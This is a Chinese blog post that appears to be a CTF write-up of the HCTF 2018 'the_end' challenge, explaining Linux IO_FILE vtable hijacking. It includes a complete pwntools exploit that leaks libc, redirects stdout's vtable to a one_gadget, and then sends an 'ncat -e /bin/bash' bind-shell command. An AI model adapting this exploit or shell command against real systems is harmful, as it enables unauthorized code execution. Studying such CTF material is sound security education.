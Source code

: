 ```yaml
---
title: 浅析 linux_IO_FILE 利用
categories:
  - linux_pwn
tags:
  - Null
---
```


`IO_FILE` 是一个很重要的技巧，在 `pwn` 中给我们提供一个其他 `GetShell` 的思路。



# 0x1 漏洞原理

暂无





# 0x2 漏洞利用



## 0x21 hctf 2018 - the_end && fake vtable

日常 `checsec` 一下：

```sh
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

看到这里心里咯噔一下，难道是个栈溢出？



### 程序分析

事实证明我想多了，流程图如下：

![the_end_flow_chart](/image/2019-04-07-linux_pwn_io_file/the_end_flow_chart.jpg)

这里条件限制的很死啊，最多可以给一个地址写五个字节，改返回地址已经不怎么现实了，找找 `exit` 函数有什么可以利用的吧。

![exit_process](/image/2019-04-07-linux_pwn_io_file/exit_process.jpg)

### 程序利用

看到这里，怎么利用，基本就呼吁而出了，我们可以通过更改 `stderr` 或者 `stdout` 的 `vtable` 表使其指向我们可控的地址，然后在新 `vtable` 更改所对应的函数位置即可。



`poc` ：

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def changed_content(exp_file, change_addr, change_value):
    print(hex(ord(change_value)))
    exp_file.send(p64(change_addr)+change_value)


def main():
    debug = 0
    if debug:
        exp_file = process("/home/who/Desktop/the_end")
    else:
        exp_file = remote("127.0.0.1", 9999)
    libc_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    one_gadget_offset = 0xf02b0
    
    # Get base address of libc
    sleep_addr = int(exp_file.recvuntil(";)", drop=True).split("here is a gift ")[1][:14], 16)
    libc_addr = sleep_addr - libc_file.symbols['sleep']
    one_gadget_addr = libc_addr + one_gadget_offset
    stdout_addr = libc_addr + libc_file.symbols['_IO_2_1_stdout_']
    stout_old_vtable = stdout_addr + 0xd8
    stderr_addr = libc_addr + libc_file.symbols['__malloc_hook']
    stdout_new_vatble = stderr_addr - 0x68
    log.info("sleep_addr:{addr}".format(addr=hex(sleep_addr)))
    log.info("libc_addr:{addr}".format(addr=hex(libc_addr)))
    log.info("stdout_addr :{addr}".format(addr=hex(stdout_addr)))
    log.info("stout_old_vtable :{addr}".format(addr=hex(stout_old_vtable)))
    log.info("one_gadget_addr:{addr}".format(addr=hex(one_gadget_addr)))
    log.info("stdout_new_vatble:{addr}".format(addr=hex(stdout_new_vatble)))

    # Change stdout_vtable to __malloc_hook - 0x68
    changed_content(exp_file, stout_old_vtable, chr(int(hex(stdout_new_vatble)[12:], 16)))
    changed_content(exp_file, stout_old_vtable+1, chr(int(hex(stdout_new_vatble)[10:12], 16)))
    
    # Change vtable->setvbuf to onegadget
    changed_content(exp_file, stdout_new_vatble+0x58, chr(int(hex(one_gadget_addr)[12:], 16)))
    changed_content(exp_file, stdout_new_vatble+0x59, chr(int(hex(one_gadget_addr)[10:12], 16)))
    changed_content(exp_file, stdout_new_vatble+0x5a, chr(int(hex(one_gadget_addr)[8:10], 16)))

    # Now, we get shell!
    exp_file.sendline("ncat -e /bin/bash -klp 5555")
    exp_file.interactive()


if __name__ == '__main__':
    main()
```

